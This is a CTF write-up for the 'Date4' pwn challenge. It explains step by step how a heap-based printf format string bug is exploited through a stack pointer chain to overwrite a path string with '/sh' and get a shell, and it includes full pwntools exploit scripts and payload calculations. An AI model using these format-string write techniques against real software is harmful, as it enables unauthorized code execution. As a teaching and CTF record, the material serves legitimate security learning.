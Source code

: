 # Date4

```
Description
Format strings are easy to exploit right?

Author
Eth007
```


We got a binary, lets check the arch and the protections etc..:

![img](images/checksec.jpg)

So only nx is enabled and its an 64 bit binary. Lets decompile it in ghidra:

![img](images/ghidra.jpg)

We can see we have again a format string vuln, but now its not on the stack but on the heap. We can also see that `date_path` is now in the `.data` section.
So now we cant write `/bin/sh` with the format string to `date_path` as we did in `date2`. We cant find our offset, but the printf is still printing values from the stack.

So what we need to do is similar to [this](https://anee.me/format-string-exploits-when-buffer-is-not-on-the-stack-f7c83e1a6781). So lets find an address pointing to another address on the stack, 
with that we first write the `date_path` address to the first stack address, then with the second write we write `/bin/sh`. 
We set a breakpoint after printf and check the stack:

![img](images/gdb.jpg)

So we can see the first value is pointing to an other address on the stack. The blue square is pointing to our heap. We can find the offset of the first value at the 6th position with gdb(run the program in gdb with the breakpoint and send `%6$p` and check the stack) 
As we can read [here](https://cor.team/posts/Zh3r0-CTF-V2---All-Pwnable-Writeups):

```
First, when something of the %offset$specifier notation is encountered, the value is cached in args_value in printf_positional so it will not reference the stack upon the next encounter.
```

So we cant use positional arguments `%offset$specifier` at the first write because of the caching issue. What we can do is like sending `x` offset times till we are at the position we want to be.
So lets create our script:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'critical'

io = start()

payload = b"%x" * 4
payload += b"%30x"
payload += b"%n"

write("payload", payload)

io.interactive()
```

We run this and it will create a payload file in the same directory, lets use it in gdb. As we can see:

```py
payload = b"%x" * 4 # means %x %x %x %x equals %4$specifier
payload += b"%30x" # 5th offset
payload += b"%n" # here we are at the 6th offset as we want
```

So lets run in gdb(`r < payload`), this time we set a breakpoint before and after printf and check the stack
We hit our first breakpoint, lets check the stack:

![img](images/gdb1.jpg)

Nothing changed, lets continue:

![img](images/gdb2.jpg)

We see its changed to 0x35. So lets calculate the amount of bytes we need to write. `date_path` is at `0x404080`. Pie is disabled so no worries for changes. 
We can see that if we write 30 bytes, we get 0x35. So lets calculate in python:


![img](images/py.jpg)

We substract 30 from 53 because thats the padding we used. Then we substract the value from the address we want to write. So lets change our script:

```py
payload = b"%x" * 4
payload += b"%4210793x"
payload += b"%n"
```

Lets run it and use it in gdb again(same breakpoints)
Continue after the first breakpoint an check the stack:

![img](images/gdb3.jpg)

So we succesfully wrote the `date_path` address to that location, so now with our second write we can use positional arguments.
So what we want to write now is `/bin/sh` to `date_path`. But in `date_path` there is already `/usr/bin/` so we can just overwrite `date` with `/sh`(`/usr/bin//sh` doesnt matter and will run as normally, try locally in your terminal). Lets check the address we want to overwrite.
We can set values in gdb:

![img](images/gdb4.jpg)

We can find the offset of the second address that we changed manually. Its the `38th` position.
So lets change our payload again. We want to write `0x0068732f` to `0x404089`. We also need to change our first payload because we wrote `0x404080`(just add `9`). 

So if we change it to:

```py
payload = b"%x" * 4
payload += b"%4210802x"
payload += b"%n"
payload += b"%30x%38$n"
```

And run it again and check what we wrote:

![img](images/gdb5.jpg)

So we can calculate it again, like we did before:

![img](images/py1.jpg)

So changed `30` to `2634406` and run again:

![img](images/gdb6.jpg)

And we can see we succesfully wrote what we want.
If we run it outside of gdb, we can see it wont work and differs slighly:

![img](images/error.jpg)

So lets debug with our script in gdb:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
b *main+134
b *main+139
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'critical'

io = start()

payload = b"%x" * 4
payload += b"%4210802x"
payload += b"%n"
payload += b"%2634406x%38$n"

io.sendlineafter(b'date?\n', payload)

io.interactive()
```

`python3 exploit.py GDB`

It will open an extra tab with gdb. Lets continue 2 times till we hit the second breakpoint, and check the stack:

![img](images/gdb7.jpg)

We can see here, its not the address we want. Its `0xa` at the end and we want `0x9` so 1 number too much. So we substract 1 from `4210802` in our script, and run it again:

![img](images/gdb7.jpg)

We can see everything is correct now, so lets continue:

![img](images/local.jpg)

And we got our shell locally, lets try to run remotely:

![img](images/flag.jpg)

and we got our shell and flag. Really cool chall, learnt some new stuff!
